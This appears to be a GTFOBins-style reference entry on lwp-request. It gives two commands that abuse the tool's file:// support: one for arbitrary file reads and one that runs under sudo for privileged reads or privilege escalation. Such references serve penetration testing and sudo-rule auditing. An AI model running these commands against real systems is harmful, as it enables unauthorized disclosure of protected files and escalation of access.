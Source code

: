 # GTFOBin: lwp-request

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
lwp-request "file://$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo lwp-request "file://$LFILE"
```
